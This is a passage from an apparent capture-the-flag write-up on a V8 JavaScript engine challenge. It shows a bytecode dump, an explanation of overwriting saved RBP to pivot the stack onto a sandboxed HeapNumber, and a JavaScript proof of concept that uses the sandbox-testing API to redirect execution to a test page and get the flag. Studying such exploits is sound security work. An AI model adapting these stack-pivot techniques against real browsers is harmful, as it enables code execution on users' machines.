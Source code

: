 ```none
         0x259b00040140 @   40 : 3b f8 0c          Add r1, [12]
         0x259b00040143 @   43 : ca                Star0
         0x259b00040144 @   44 : 13 0e             LdaConstant [14]
         0x259b00040146 @   46 : 23 0f 0d          StaGlobal [15], [13]
         0x259b00040149 @   49 : 0e                LdaUndefined
         0x259b0004014a @   50 : af                Return
Constant pool (size = 16)
0x259b000400a9: [TrustedFixedArray]
 - map: 0x12e6000005e5 <Map(TRUSTED_FIXED_ARRAY_TYPE)>
 - length: 16
           0: 0x12e600190f3d <HeapNumber 1.1>
           1: 0x12e600190c45 <String[2]: #g0>
           2: 0x12e600190f49 <HeapNumber 2.2>
           3: 0x12e600190c55 <String[2]: #g1>
           4: 0x12e600190f55 <HeapNumber 3.3>
           5: 0x12e600190c65 <String[2]: #g3>
           6: 0x12e600190f61 <HeapNumber 4.4>
           7: 0x12e600190c75 <String[2]: #g4>
           8: 0x12e600190f6d <HeapNumber 5.5>
           9: 0x12e600190c85 <String[2]: #g5>
          10: 0x12e600190f79 <HeapNumber 6.6>
          11: 0x12e600190c95 <String[2]: #g6>
          12: 0x12e600190f85 <HeapNumber 6.61>
          13: 0x12e600190f91 <HeapNumber 1336.13>
          14: 0x12e600190f9d <HeapNumber 69.42>     <==== Nice
          15: 0x12e600002979 <String[1]: #g>
Handler Table (size = 0)
[...]
```

Perfect! Now technically we are rewriting RBP and pivoting the stack to the
address of `69.420` (i.e. `0x12e600190f9d`) after a couple of functions returns
from `Builtins_LdaConstantHandler`. The address of the constant is in the
sandbox and we have full R/W access to it through the `Sandbox` object provided
by `--sandbox-testing`. We can therefore write a ROP chain inside the object. We
can either do this *direcly* in the function or bring the `HeapNumber` reference
outside the function through a global variable.

We cannot really execute a real valid ROP chain since we don't have a leak and
therefore no gadgets yet. We could work on one, or we could simply return into
`Sandbox.targetPage` to cause an access violation (the page is not executable)
and get the flag regardless.

```js
function f(x) {
    g0 = 1.1;
    g1 = 2.2;
    g3 = 3.3;
    g4 = 4.4;
    g5 = 5.5;
    g6 = 6.60;
    g6 = 6.61;

    let a = 1336.1337 + x; // Will set accumulator to 1337.1337 if x is 1
    g = 69.420;            // Will overwrite saved RBP

    newStackAddr = Sandbox.getAddressOf(g);
}

f(0); // Does not trigger backdoor

const mem = new DataView(new Sandbox.MemoryView(0, 0x100000000));
// Point next RET instruction after stack pivot to target page
mem.setBigUint64(newStackAddr + 9, BigInt(Sandbox.targetPage), true);
```

[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg